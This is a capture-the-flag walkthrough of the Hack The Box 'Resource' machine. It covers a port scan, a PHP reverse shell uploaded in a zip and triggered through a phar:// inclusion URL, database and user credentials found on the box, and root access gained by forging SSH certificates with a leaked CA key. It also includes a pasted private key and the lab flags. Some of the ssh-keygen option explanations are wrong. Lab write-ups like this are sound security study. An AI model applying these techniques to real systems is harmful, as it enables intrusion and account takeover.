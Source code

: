```yaml
---
title: "HTB: Resource Seasonal Machine"
author: "v3l1d"
date: "2024-08-20"
---
```



![](attachment/3bd70dd5104068e4031e06ac1c61711d.png)

**Port Scan**

```
┌──(kali㉿kali)-[~/HTB/Resource]
└─$ cat scan_Complete 
# Nmap 7.94SVN scan initiated Sun Aug 11 14:52:16 2024 as: nmap -sC -sV -A -T4 -Pn -p- -o scan_Complete 10.10.11.27
Nmap scan report for 10.10.11.27
Host is up (0.086s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 d5:4f:62:39:7b:d2:22:f0:a8:8a:d9:90:35:60:56:88 (ECDSA)
|_  256 fb:67:b0:60:52:f2:12:7e:6c:13:fb:75:f2:bb:1a:ca (ED25519)
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:a6:83:b9:90:6b:6c:54:32:22:ec:af:17:04:bd:16 (ECDSA)
|_  256 0c:c3:9c:10:f5:7f:d3:e4:a8:28:6a:51:ad:1a:e1:bf (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 11 14:52:32 2024 -- 1 IP address (1 host up) scanned in 15.74 seconds
```

Visit http://itrc.ssg.htb/ 



![](attachment/712ccf9b98e3eb82338f1bcde7b3513e.png)

On this page you can open a ticket uploading a zip file containing a reverse shell script in php. You can exploit phar deserialization to handle the shell generated on revshell generator:

![](attachment/f1f2f21551a2817bed9305cd5d124173.png)

![](attachment/c85cade67bf78fd22ea7ffe4c4886d54.png)


Upload the file on ticket system and open up its page:

![](attachment/f50a4431998e612de3034ff616a90414.png)

```
http://itrc.ssg.htb/?page=phar://uploads/0d327960dcada2c40fb3b5c0cc99154b3963ecd4.zip/<phpfilename>
without php extension
```

```shell
$ cd /var/www
$ ls
html
itrc
$ cd itrc
$ ls
admin.php
api
assets
create_ticket.php
dashboard.php
db.php
filter.inc.php
footer.inc.php
header.inc.php
home.php
index.php
loggedin.php
login.php
logout.php
register.php
savefile.inc.php
ticket.php
ticket_section.inc.php
uploads
$ cat db.php    
<?php

$dsn = "mysql:host=db;dbname=resourcecenter;";
$dbusername = "jj";
$dbpassword = "ugEG5rR5SG8uPd";
$pdo = new PDO($dsn, $dbusername, $dbpassword);

try {
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Connection failed: " . $e->getMessage());
}$ 

```

Credentials found here didn't work neither for ssh or others.
This box looks always broken so i decided to look a writeup and found out that should be present a file in /uploads folder of itrc that i don't have:

![](attachment/836cab1aee6922d645e447bf11a51d46.png)

```
Credentials:
msainristil:82yards2closeit
```

![](attachment/334f5c9284c02ea18b054c4959331e94.png)

In the decommisions_old_ca folder there is priv/pub key pair, that we are going to convert into ssh keys.

```
ssh-keygen -t rsa -b 2048 -f keypair
ssh-keygen -s ca-itrc -n zzinter -I kali keypair.pub 
```


![](attachment/865cfe3a7e89dbf3d5425f2b30dc78e3.png)

When i was www-data i noted that was a port listening on 127.0.0.11, this usuaylly means that we are in adocker container, so trough linpeas i  had a tip about this. Then i used deepce and got:

![](attachment/c3bd47cec612c42278a478ca983b2cd1.png)

RABBIT HOLE, try hard on SSH: https://shivamaharjan.medium.com/ssh-cas-and-principals-630a433d76d6

```
ssh-keygen -t ecdsa -C "The CA" -N "" -f shiva
ssh-keygen -s ./ca-itrc -I CA-signing -n msainristil,zzinter,root -V +1w -z 1 ./shiva.pub

Copy with scp generated files and:

──(kali㉿kali)-[~/HTB/Resource]
└─$ ssh -o CertificateFile=shiva-cert.pub -i shiva root@10.10.11.27            
Linux itrc 5.15.0-117-generic #127-Ubuntu SMP Fri Jul 5 20:13:28 UTC 2024 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@itrc:~# ls
```

Even if we logged as root, we don't have nothing here.

![](attachment/09598aa1ce18ac9b5f233eecf3a06a09.png)

Go back in msainristil SSH:

![](attachment/b4223d8b25ba9e87781b1b3c05157fee.png)


Run these commands to generate ssh keypair and sign them with **ca-itrc** SSH certificate

```
ssh-keygen -t rsa -b 2048 -f keypair
ssh-keygen -s ca-itrc -I user-cert -n zzinter -V +52w -z 12345 keypair.pub
```

![](attachment/416696f04cb1bbddf329cdb2a8a2cc90.png)

Now copy the files generated in local machine:

```
scp  msainristil@10.10.11.27:/home/msainristil/decommission_old_ca/keypair* 
82yards2closeit
ssh -i keypair zzinter@10.10.11.27
```

![](attachment/922daa0e3bdaddd8a0a3093c42c89b9f.png)

From zzinter ssh scp this file: **sign_key_api.sh** and modify the file with vim appending **zzinter_temp** and **root_user** as are present in ssh_principals of the box. This is visible generating a public cert for support@ssg.

![](attachment/f1ae315604077afbaba6cfce52ee1e7c.png)

Now sign the private key we obtained with the script, generating a certificate signed 

```
┌──(kali㉿kali)-[~/HTB/Resource/zzinter_keys]
└─$ ./sign_key_api.sh keypair.pub zzinter zzinter_temp > zzinter.cert
```

From a writeup (i needed help) i recover this key that we will use a certificate to generate root ssh-key. Pasted it in root_ssh.cert file
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW 
QyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQAAAKg7BlysOwZc 
rAAAAAtzc2gtZWQyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQ 
AAAEBexnpzDJyYdz+91UG3dVfjT/scyWdzgaXlgx75RjYOo4Hg8Cudy1ShyYfqzC3ANlgA 
cW7Q4MoZuezAE8mNFSmxAAAAIkdsb2JhbCBTU0cgU1NIIENlcnRmaWNpYXRlIGZyb20gSV 
QBAgM=
-----END OPENSSH PRIVATE KEY-----
```

Then login as root on your kali and sign a the private key using this certificate i provided

```
┌──(root㉿kali)-[/home/kali/HTB/Resource/zzinter_keys]
└─# ssh-keygen -s root_ssh.cert -z 1 -I root -V -1W:forever -n root_user keypair.pub
Signed user key keypair-cert.pub: id "root" serial 1 for root_user valid after 2024-08-13T13:24:56
┌──(root㉿kali)-[/home/kali/HTB/Resource/zzinter_keys]
└─# ssh-keygen -f keypair-cert.pub -e > root_keypair
┌──(root㉿kali)-[/home/kali/HTB/Resource/zzinter_keys]
└─# ssh -o CertificateFile=keypair-cert.pub -i keypair root@10.10.11.27 -p 2222

```

```
ssh-keygen -s root_ssh.cert -z 1 -I root -V -1W:forever -n root_user keypair //Extract the pub key from private // OR
ssh-keygen -s root_ssh.cert -z 1 -I root -V -1W:forever -n root_user keypair.pub //Use Directly the pub key
```

This command generates a signed SSH user certificate using the `ssh-keygen` tool. Here's what each option does:

- -s root_ssh.cert`: specifies the CA certificate file to use for signing (not shown in the output, but assumed to exist).
- -z 1`: specifies the serial number of the certificate (in this case, 1).
- `-I root`: specifies the principal identity of the certificate (in this case, "root").
- `-V -1W:forever`: specifies the validity period of the certificate (in this case, forever, starting from the current time).
- `-n root_user`: specifies the username of the certificate (in this case, "root_user").
- `keypair.pub`: specifies the output file for the generated public key.

The resulting certificate is stored in `keypair-cert.pub`.

**Flags**
![](attachment/d9314cee50c28c2118e10e586b1ea6b8.png)


```
user: 98a79086fe46218a7edd6abc87eb54f3
root: 495f767f17cf87214179384c1f145b91
```
